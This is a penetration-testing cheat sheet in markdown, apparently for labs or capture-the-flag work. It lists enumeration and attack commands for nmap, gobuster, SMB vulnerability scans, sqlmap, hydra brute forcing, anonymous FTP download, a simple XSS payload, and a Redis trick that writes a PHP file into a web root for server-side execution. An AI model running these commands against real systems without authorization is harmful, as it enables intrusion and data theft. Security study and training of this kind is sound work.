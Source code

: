 ## Initial Enumeration
### Nmap
```
nmap -sS -sC -oN initial_scan.txt {IP}  
nmap -sS -p- -oN all_ports.txt {IP}
```
### Gobuster 
```
gobuster dir -u http://url -w /location/wordlist/file.txt  
gobuster vhost -u http://url -w /location/wordlist/file.txt  

/usr/share/seclists/Discovery/Web-Content/common.txt  
/usr/share/seclists/Discovery/Web-Content/big.txt  
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
```
### Enum4Linux
```
enum4linux -e options http://[ip]
```

### HTTP Request 
```
Using Netcat
nc <target ip> 80

This will connect to the webserver which will allow you to send a request command

Head / HTTP/1.0

Hit enter twice as all headers have two spaces between them and the request. This should then 
return the Header of the request

```
### SMB 
```
nmap -v -sS -p 445,139 -Pn --script smb-vuln* --script-args=unsafe=1 -oA smb_vuln_scan_192.168.189.42 192.168.189.42  

showmount -e 10.10.10.10  

smbclient -L 10.10.10.10

```
### Redis

```
Redis - 6379
nmap --script redis-info -sV -p 6379 <IP>

To check if the db is able to apply Server side execution run the following, then try to run the file from the browser.
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK

>info 
>get config *

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
```

### SQL
```
sqlmap -u http://192.168.202.163/login/index.php?id=1 --batch 
--batch bypasses all options when running commands

```

## Enumerating Discovered Ports

### 22 - SSH 
```
nc -vn <IP> 22
  
msf> use scanner/ssh/ssh_enumusers

hydra -L user.txt -P password.txt {IP} 22
```
  
### 21 FTP 
```
Anonymous Login Enabled
ftp {IP}
anonymous - Username
anonymous - Password 
  ls -al 
  
nmap --script ftp-* -p 21 <ip>

Downloads all files in FTP 
wget -m ftp://anonymous:anonymous@10.10.10.10

Connecting in a browser 
ftp://anonymous:anonymous@10.10.10.10
```

### 80/443 HTTP/HTTPS
#### Nikto 
```
nikto -h {URL}
nikto -h {URL} | tee nikto
```

## Subdomains 
### Sublister
```
sublist3r -d url.com
```

## XSS
### Testing if there is a xss vulnrability 
```
<script>alert("testing")</script>

```










